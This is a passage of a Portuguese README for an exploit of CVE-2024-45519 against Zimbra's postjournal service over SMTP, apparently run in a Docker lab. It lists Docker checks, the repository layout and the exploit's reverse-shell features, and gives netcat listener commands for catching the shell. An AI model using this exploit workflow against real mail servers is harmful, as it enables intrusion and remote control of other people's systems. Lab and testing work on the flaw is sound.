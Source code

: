 #### **4. Verificar Configuração (Fora do Container)**

```bash
# Verificar se o serviço está rodando
docker exec maquina4-zimbra ps aux | grep postjournal

# Verificar logs do Zimbra
docker exec maquina4-zimbra tail -f /opt/zimbra/log/zimbra.log

# Testar conectividade SMTP
docker exec maquina4-zimbra telnet localhost 25
```

### **Estrutura de Arquivos**

```
CVE-2024-45519/
├── exploit.py          # Script principal de exploração
├── postjournal         # Binário vulnerável (124KB)
├── README.md           # Este arquivo
└── img/                # Imagens de demonstração
    ├── exploit.png     # Execução do exploit
    └── shell.png       # Shell reverso estabelecido
```

## **Exploit SMTP**

### **Funcionalidades**

- **Verificação de Porta**: Confirma se a porta SMTP está aberta no alvo
- **Exploitação Automática**: Executa o payload RCE via SMTP
- **Shell Reverso**: Estabelece conexão reversa para controle remoto
- **Feedback Completo**: Mostra todas as respostas do servidor SMTP

### **Requisitos**

- Python 3.x
- Acesso à rede do servidor Zimbra
- Porta SMTP (25) acessível
- IP externo para receber o shell reverso

### **Uso**

#### **1. Preparar o Listener (Terminal 1)**

**IMPORTANTE**: Sempre execute o listener ANTES de rodar o exploit!

```bash
# Listener padrão na porta 4444
nc -lvnp 4444

# Ou em porta específica
nc -lvnp 9999
```

